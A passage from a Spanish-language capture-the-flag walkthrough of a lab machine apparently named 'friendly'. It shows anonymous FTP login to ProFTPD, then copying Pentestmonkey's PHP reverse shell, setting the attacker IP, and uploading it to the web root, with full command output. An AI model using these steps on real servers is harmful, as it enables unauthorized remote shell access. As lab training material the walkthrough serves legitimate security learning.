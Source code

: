 Aquí podemos ver un detalle importante, y es que tenemos acceso anónimo vía FTP, lo que quiere decir que no necesitamos contraseña. 


### FTP anónimo

De esta forma, vamos a conectarnos:

~~~bash
❯ export ip=192.168.1.16
❯ ftp $ip
Connected to 192.168.1.16.
220 ProFTPD Server (friendly) [::ffff:192.168.1.16]
Name (192.168.1.16:kaian): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -l
229 Entering Extended Passive Mode (|||2428|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
226 Transfer complete
~~~

El index.html que figura es la página por defecto de Apache, así que vamos a subir una Reverse shell. 


### Reverse shell

Como siempre, utilizaremos la de [Pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) que podemos descargar desde esa URL. En nuestro caso como usamos Kali, ya viene incluida:

~~~bash
❯ locate php-reverse-shell
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/seclists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php
❯ cp /usr/share/webshells/php/php-reverse-shell.php rev.php
❯ nano rev.php
~~~

Tras poner nuestra IP local de la máquina atacante en el fichero, lo subimos vía FTP:

~~~bash
ftp> put rev.php
local: rev.php remote: rev.php
229 Entering Extended Passive Mode (|||63738|)
150 Opening BINARY mode data connection for rev.php
100% |********************************************************************************************************************************************|  5495      131.01 MiB/s    00:00 ETA
226 Transfer complete
5495 bytes sent in 00:00 (11.07 MiB/s)
ftp> ls -l
229 Entering Extended Passive Mode (|||37939|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
-rw-r--r--   1 ftp      nogroup      5495 Apr 15 17:25 rev.php
226 Transfer complete
ftp> 
~~~
